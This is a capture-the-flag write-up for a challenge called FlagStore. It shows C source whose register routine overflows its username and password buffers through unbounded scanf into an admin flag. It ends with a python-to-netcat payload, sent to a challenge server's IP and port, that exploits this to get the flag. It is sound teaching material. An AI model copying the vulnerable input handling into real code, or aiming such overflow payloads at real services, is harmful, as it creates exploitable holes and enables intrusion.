 # Exp70 - FlagStore

## Description

Here's the ultimate flag store. Store and retrieve your flags whenever you want.

## Solution

The source code of the binary to exploit is public.

```c
#include <stdio.h>
#include <string.h>

#define FLAG "hello"

void register_user(char *username, char *password);
int check_login(char *user, char *pass, char *username, char *password);


int main() {
	char username[500];
	int is_admin = 0;
	char password[500];
	int logged_in = 0;
	char flag[250];

	char user[500];
	char pw[500];
	setbuf(stdout, NULL);
	printf("Welcome to the FlagStore!\n");

	while (1) {
		printf("Choose an action:\n");
		printf("> %s: 1\n> %s: 2\n> %s: 3\n> %s: 4\n", "regiser", "login", "get_flag", "store_flag");
		int answer = 0;
		scanf("%d", &answer);

		switch(answer) {
			case 1:
				printf("Enter an username:");
				scanf("%s", username);
				printf("Enter a password:");
				scanf("%s", password);

				if(strcmp(username, "admin") == 0) {
					printf("Sorry, admin user already registered\n");
					break;
				}

				if(strlen(password) < 6) {
					printf("Sorry, password too short\n");
					break;
				}

				register_user(username, password);
				printf("User %s successfully registered. You can login now!\n", username);
				printf("%d\n", is_admin);

				break;
			case 2:
				printf("Username:");
				scanf("%499s", user);
				printf("Password:");
				scanf("%499s", pw);

				if(check_login(user, pw, username, password) == -1) {
					printf("Wrong credentials!\n");
					break;
				}

				logged_in = 1;
				printf("You're now authenticated!\n");
				printf("%d\n", is_admin);

				break;
			case 3:
				if(logged_in == 0) {
					printf("Please login first!\n");
					break;
				}

				if(is_admin != 0) {
					strcpy(flag, FLAG);
				}

				printf("Your flag: %s\n", flag);

				break;
			case 4:
				if(logged_in == 0) {
					printf("Please login first!\n");
					break;
				}

				printf("Enter your flag:");
				scanf("%s",flag);

				printf("Flag saved!\n");

				break;
			default:
				printf("Wrong option\nGood bye\n");
				return -1;
		}
	}
}

void register_user(char *username, char *password) {
	//XXX: Implement database connection
	return;
}

int check_login(char *user, char *pass, char *username, char *password) {
	if (strcmp(user, username) != 0 || strcmp(pass, password) != 0) {
		return -1;
	}
	return 0;
}
```

In the `register`switch case, the length of the user inputs are not checked, which means we can overflow the `username` and `password` buffers.
We can exploit that to change the value of `is_admin`.

With the input 

```bash 
python -c "print '1\aaaaaa\x00'+'\x42'*494+'\npassword\n2\aaaaaa\npassword\n3'" | nc 
188.166.133.53 12157
```

we managed to get the flag.